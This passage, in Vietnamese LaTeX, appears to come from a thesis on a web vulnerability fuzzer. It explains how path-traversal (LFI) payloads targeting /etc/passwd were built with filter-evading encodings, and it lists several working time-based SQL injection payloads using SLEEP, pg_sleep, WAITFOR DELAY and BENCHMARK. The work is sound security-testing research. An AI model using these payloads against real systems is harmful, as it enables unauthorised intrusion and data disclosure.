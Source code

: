 \begin{itemize}
  \item Đối với các payload \acrshort{lfi}, chúng tôi thu thập tám payload mẫu với số lượng các chuỗi ``../'' tăng dần, nhằm tăng độ sâu của đường dẫn để tiếp cận được tập tin \texttt{/etc/passwd} của máy chủ. Từ 8 payload này, chúng tôi áp dụng các kĩ thuật làm rối riêng biệt để sinh ra các payload khác. Các kĩ thuật này bao gồm encode các chuỗi kí tự ``../'', ``..\textbackslash'' và ``..\textbackslash /'' theo các tập kí tự (charset) ít phổ biến như ``\texttt{..\%c0\%af}'', ``\texttt{..\%252f}'', ``\texttt{\%\%32\%65}'', ``\texttt{..\%\%32\%66}'',  ``\texttt{..\%25c1\%259c}'',... để vượt qua một số kĩ thuật lọc và làm sạch dữ liệu ở phía server-side của máy chủ ứng dụng web mục tiêu.
  \item Đối với các payload time-based \acrshort{sqli}, chúng tôi sử dụng các payload chứa hai loại hàm chính để hoãn thời gian thực hiện request. Cụ thể là hàm \texttt{sleep} (đối với MySQL, tương tự là \texttt{pg\_sleep} đối với PostgreSQL và \texttt{waitfor delay}, \texttt{waitfor time} đối với Microsoft SQL Server) và hàm \\\texttt{BENCHMARK(10000000,MD5('Y4T0G4M11337'))} để kéo dài thời gian thực hiện request đối với các ứng dụng web mắc lỗi này. Bên cạnh đó, với mỗi payload gốc, chúng tôi áp dụng thêm nhiều cách thức đóng ngoặc, chú thích để tránh gặp lỗi cú pháp khi thực thi đoạn mã SQL ở phía máy chủ, ví dụ một số payload trong Đoạn mã \ref{lst:example-sqli-payloads} sau.
\end{itemize}
\begin{lstlisting}[language={}, label={lst:example-sqli-payloads}, caption={Ví dụ một số payload kiểm thử lỗ hổng time-based \acrshort{sqli}},captionpos=b,basicstyle=\ttfamily]
') OR 1337 LIKE BENCHMARK(10000,MD5('Y4T0G4M11337'))--+-
OR ELT(1337 LIKE 1337,SLEEP(10))--+-
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1/(SELECT 0) END)) AND '
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN SLEEP(10) ELSE 1337 END))--+-
' RLIKE SLEEP(10)--+-
' (SELECT * FROM (SELECT(SLEEP(10)))Y4T0G4M11337)--+-
' WAITFOR DELAY '0:0:10'--+-
1)) or pg_sleep(*index*)--
\end{lstlisting}
Cụ thể cấu hình được áp dụng trong ứng dụng và biểu thức chính quy áp dụng trong trường hợp phát hiện lỗi \acrshort{lfi} được thể hiện ở Đoạn mã \ref{lst:default-fuzz-config} dưới đây.
